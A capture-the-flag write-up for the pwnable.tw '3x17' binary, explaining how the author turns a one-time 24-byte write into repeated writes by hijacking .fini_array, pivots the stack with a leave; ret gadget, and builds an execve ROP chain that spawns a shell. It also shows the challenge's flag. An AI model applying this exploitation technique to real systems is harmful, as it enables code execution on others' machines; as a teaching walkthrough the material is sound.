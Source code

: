 # 3x17

Stack pivoting, Overwriting .fini_array, rop2syscall

## checksec

```bash
[*] '/mnt/d/CTFs/pwnable-tw/3x17/3x17'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Since there is no PIE, the ROP gadgets and `.fini_array` are at fixed addresses. 

Although the checksec detects no canary, stack canaries exist on most of the functions in the binary, including `main`. 

## General Functionality of the Binary

The stripped, statically-linked x86-64 binary simply provides an one-time arb-write capability of 24 bytes (read in using the read syscall) before returning, as shown

```
$ ./3x17
addr:123456
data:bruh
```

An `atoll()` call is made on the user input to the  "addr:" prompt, while the binary accepts byte input after the "data:" prompt. Thus, the above user input would result in the writing of `b"bruh\n"` into the address `hex(123456) = 0x1e240`. 

We will need to overwrite `.fini_array` to obtain more arbtrary writes. 

### Structure of `.fini_array`

From Binary Ninja, we see that `.fini_array` basically consists of two function pointers, one to `__do_global_dtors_aux` and the other to some unidentified function `sub_401580`

```c
.fini_array section started  {0x4b40f0-0x4b4100}
004b40f0  void (* fini_array[0x2])() = 
004b40f0  {
004b40f0      [0x0] = __do_global_dtors_aux
004b40f8      [0x1] = sub_401580
004b4100  }
.fini_array section ended  {0x4b40f0-0x4b4100}
```

> Note: `.fini_array` refers to the section of memory in the ELF that holds the array of function that run on exit, while `fini_array` refers to the array of functions itself. 


Notably, the functions in `.fini_array` run in reverse order i.e. `fini_array[1]` will run before `fini_array[0]`. Hence when overwriting `.fini_array`, we should inject the function (or ROP gadget, but oops - that will require [stack pivoting](#stack-pivoting)) that should/can run first into the second entry of `fini_array`. 

## Obtaining more Arbitrary Writes

24 bytes of arb-write is insufficient for us to construct the ROP chain to spawn a shell through syscall-ing (not to mention we also need to overwrite `.fini_array`, and [pivot the stack](#stack-pivoting), the reason for which is explained in that section), so our first order of business is to obtain more arbitrary writes. 

To that end, we need to be able to continuously call `main`, so that we can repeatedly use the arb-write capability that the function grants us. 

At this point, we should note that within `main`, there is a global variable that is updated whenever the function runs. In the truncated High Level IL representation of `main` generated by Binary Ninja shown below, this is `data_4b9330` - the byte at address `0x4b9330` is incremented by 1 everytime `main` runs. 

```c
00401b6d  int64_t main()

              ... Setting up the stack canary ...

00401b8e      data_4b9330 = data_4b9330 + 1
00401b94      char rax_3 = data_4b9330
00401b9d      if (rax_3 == 1)
                  ... Perform the Arb-write ...

              ... Canary check ...
```

Only if the byte at address `0x4b9330` is 1, will we be able to arb-write. `data_4b9330` is initialized to zero, so on the second run of `main`, the arb-write capability won't occur. 

However, if we are able to overflow the byte at `0x4b9330`, then the arb-write capability will be re-attained. In other words, after the first occurrence, the arb-write capability will only reoccur every 256 calls to `main`. 

This implies that we cannot simply overwrite an entry in `fini_array` with `main` - we need a way of calling `main` a large number of times. 

### Calling `main` repeatedly

The libc function `__libc_csu_fini` is the function that calls the functions in `fini_array`. We can identify it (its address) by the fifth argument that is passed to `__libc_start_main` that is the first call from the binary's entrypoint. From the Binary Ninja High Level IL representation of `__libc_csu_fini` shown below, we verify that the function in `fini_array` are called from higher to lower indexes. 

```c
00402960  int64_t __libc_csu_fini()
0040297d      int64_t i = 1
00402994      do
00402988          fini_array[i]()
0040298c          i = i - 1
00402994      while (i != -1)
0040299c      return _fini() __tailcall
```

Notably, if `fini_array[1] = main` and `fini_array[0] = __libc_csu_fini`, then `main` will be continuously called, since `fini_array` would be

```c
004b40f0  void (* fini_array[0x2])() = 
004b40f0  {
004b40f0      [0x0] = __libc_csu_fini
004b40f8      [0x1] = main
004b4100  }
```

## Stack Pivoting 

To spawn a shell by rop2syscall, we need to inject ROP gadgets onto the stack (since retaddrs are popped off the stack). However, due to ASLR, we do not know the address of the stack and thus would need to leak its address to know where to arb-write to. Perhaps that is possible, but there is a simpler way to perform our rop2syscall, which is to pivot the stack to an address that is fixed (i.e. does not change between runs). 

Consider the disassembly of `__libc_csu_fini` up till its call 

```x86asm
00402960  int64_t __libc_csu_fini()

00402960  55                 push    rbp {__saved_rbp}
00402961  488d0598170b00     lea     rax, [rel data_4b4100]
00402968  488d2d81170b00     lea     rbp, [rel fini_array]
0040296f  53                 push    rbx {__saved_rbx}
00402970  4829e8             sub     rax, rbp
00402973  4883ec08           sub     rsp, 0x8
00402977  48c1f803           sar     rax, 0x3
0040297b  7419               je      0x402996  {0x0}

0040297d  488d58ff           lea     rbx, [rax-0x1]  {0x1}
00402981  0f1f8000000000     nop     dword [rax], eax

00402988  ff54dd00           call    qword [rbp+rbx*8]
```

Importantly, `rbp` is loaded with the address of `.fini_array` (instr 0x402968). This implies that we can use a very basic gadget (that is present in almost all x86-64 functions since that is the function epilogue) to pivot the stack - the `leave; ret` gadget. 

This technique is mentioned on [this site](https://ir0nstone.gitbook.io/notes/binexp/stack/stack-pivoting#leave-ret), but the basic idea is that the `leave` instr is the following two instrs

```x86asm
mov rsp, rbp
pop rbp
```

Thus, if we inject the `leave; ret` gadget into `fini_array[0]`, then after the `leave` rsp will be set to `fini_array`, and after the `ret` rsp will be `fini_array + 8`. The stack would be pivoted to `fini_array[1]`, after which we would know the addresses to write in further ROP gadgets (since the address of `.fini_array` is fixed because there is no PIE). 

In other words, if we setup the ROP chain to spawn a shell from `fini_array + 16` onwards, and let `fini_array[0]` be a `leave; ret` gadget and `fini_array[1]` be a `ret` gadget, then 

Notably, we **must** setup the rest of the ROP chain before pivoting the stack, because that would take away our arb-write capability, since both entries of `fini_array` are needed to [call `main` repeatedly](#calling-main-repeatedly). 

## The ROP chain

We use the following ROP chain to rop2syscall (creation mostly automated using pwntools)

```
0x0000:         0x44a309 pop rdx; pop rsi; ret
0x0008:              0x0
0x0010:              0x0
0x0018:         0x41e4af pop rax; ret
0x0020:             0x3b
0x0028:         0x401696 pop rdi; ret
0x0030:         0x4b7c70
0x0038:         0x4022b4 syscall
```

A separate arb-write to `0x4b7c70` (just some arbitrary address in .data) is done to write in the `b"/bin/sh\x00"` string. 

## Flag

```bash
[+] Opening connection to chall.pwnable.tw on port 10105: Done
[*] Loaded 131 cached gadgets for './3x17'
0x0000:         0x44a309 pop rdx; pop rsi; ret
0x0008:              0x0
0x0010:              0x0
0x0018:         0x41e4af pop rax; ret
0x0020:             0x3b
0x0028:         0x401696 pop rdi; ret
0x0030:         0x4b7c70
0x0038:         0x4022b4 syscall
[*] Switching to interactive mode
$ cd home/3x17
$ ls
3x17
run.sh
the_4ns_is_51_fl4g
$ cat the_4ns_is_51_fl4g
FLAG{Its_just_a_b4by_c4ll_0riented_Pr0gramm1ng_in_3xit}
```